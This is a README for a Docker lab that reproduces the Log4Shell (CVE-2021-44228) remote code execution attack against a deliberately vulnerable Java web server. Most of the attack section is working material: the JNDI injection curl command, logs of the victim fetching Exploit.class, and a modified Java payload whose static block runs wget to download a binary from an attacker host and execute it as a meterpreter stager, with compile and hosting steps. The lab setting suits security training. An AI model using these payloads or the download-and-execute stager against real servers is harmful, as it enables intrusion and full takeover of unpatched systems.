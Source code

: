 # log4shell-dockerlab
[![Run on Google Cloud](https://deploy.cloud.run/button.svg)](https://deploy.cloud.run)
## Credits
All credits goes to the original authors. I just git-cloned and created a docker-compose file, that's all. 

- [LunaSec - log4shell 0-day](https://www.lunasec.io/docs/blog/log4j-zero-day/)
- [@christophetd - log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)
- [@mbechler - marshalsec](https://github.com/mbechler/marshalsec)
- [@tangxiaofen7 - Exploit.java](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)

## Description 
This repository contains a docker-compose setup which starts an attacker LDAP server and a victim web server that is vulnerable to log4shell (CVE-2021-44228). 

## Components 

**Victim Web server - log4shell-vulnerable-app:** A web server with log4j, vulnerable to first stage payload, which is the log4shell attack. 

**Attacker LDAP sever - marshalsec:** A LDAP server that receives jndi request from the victim web server. Redirects the victim web server to attacker web server. 

**Attacker Web server:** A `python3 -m http.server` server which hosts the second stage payload, which is the `Exploit.class`. 

## Usage 

Start the victim web server and the attacker ldap server 
```
docker-compose up --build 
```

Prepare the second stage payload. The port 8888 is hardcoded. To change this, modify `./marshalsec/Dockerfile`.
```
cd ./attacker-webserver
python3 -m http.server 8888
```

Attack
```
// Attack with log4shell payload 
└─# curl <your-vm-ip>:8080 -H 'X-Api-Version: ${jndi:ldap://<your-vm-ip>:1389/Exploit}'    

Hello, world!

// Docker-compose's LDAP server replying to JNDI & victim web server downloading Exploit.class from the attacker web server 
log4shell-dockerlab-targetweb-1  |
log4shell-dockerlab-jndi-1       | Send LDAP reference result for Exploit redirecting to http://172.17.0.1:8888/Exploit.class
log4shell-dockerlab-targetweb-1  | 2021-12-12 05:01:44,345 http-nio-8080-exec-7 WARN Error looking up JNDI resource [ldap://192.168.40.128:1389/Exploit]. javax.naming.NamingException: problem generating object using object factory [Root exception is java.lang.ClassCastException: Exploit cannot be cast to javax.naming.spi.ObjectFactory]; remaining name 'Exploit'
log4shell-dockerlab-targetweb-1  |      at com.sun.jndi.ldap.LdapCtx.c_lookup(LdapCtx.java:1092)

// Attacker's web server sending second stage payload to the victim web server. This will get executed.
└─# python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
172.20.0.3 - - [12/Dec/2021 00:01:44] "GET /Exploit.class HTTP/1.1" 200 -
```

Check the attack poc 
```
// Check docker ps and find out container ID of the "targetweb"
└─# docker ps
CONTAINER ID   IMAGE                           COMMAND                  CREATED             STATUS          PORTS                                       NAMES
1131d694c91a   log4shell-dockerlab_jndi        "/usr/local/bin/mvn-…"   51 minutes ago      Up 51 minutes   0.0.0.0:1389->1389/tcp, :::1389->1389/tcp   log4shell-dockerlab-jndi-1
a2217b3781ad   log4shell-dockerlab_targetweb   "java -jar /app/spri…" 


// Check /tmp and validate the POC have worked 
└─# docker exec a2217b3781ad ls /tmp
hsperfdata_root
log4shell-pwned
```

## Usage - Modified Payload 
Instead of the `Exploit.java` POC, you can modify the payload.

Install JDK if you don't have one 
```
apt install -y default-jdk 
```

Modify the PoC. For example, you can test with a metasploit's `multi/script/web_delivery`. 
```
// Modified PoC to ship meterpreter instead of the original echo pwned > /tmp/log4shell-pwned payload. 

public class Rev {
    public Rev() {}
    static {
        try {
            String[] cmds = System.getProperty("os.name").toLowerCase().contains("win")
                    ? new String[]{"cmd.exe","/c", "calc.exe"}
                    : new String[]{"sh","-c", "wget -qO PqhJT1H2 --no-check-certificate http://192.168.40.128:7777/mhjfufvGzrRws; chmod +x PqhJT1H2; ./PqhJT1H2& disown"};
            java.lang.Runtime.getRuntime().exec(cmds).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] args) {
        Rev e = new Rev();
    }
} 
```

Compile the second stage. Make sure to target JDK 8, since the `log4shell-vulnerable-app` was built on JDK 8. 
```
// Compile with JDK 8
javac --release 8 <your-payload>.java 

// Sanity check and make sure it's version 52.0 (jdk 8)
└─# file Rev.class
Rev.class: compiled Java class data, version 52.0 (Java 1.8)
```

Host the file, and attack again
```
python3 -m http.server 8888 
curl <your-vm-ip>:8080 -H 'X-Api-Version: ${jndi:ldap://<your-vm-ip>:1389/Exploit}'
ex) curl 192.168.40.128:8080 -H 'X-Api-Version: ${jndi:ldap://192.168.40.128:1389/Exploit}'  
```

## References 
https://www.lunasec.io/docs/blog/log4j-zero-day/

http://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228

https://github.com/christophetd/log4shell-vulnerable-app

https://github.com/mbechler/marshalsec

https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
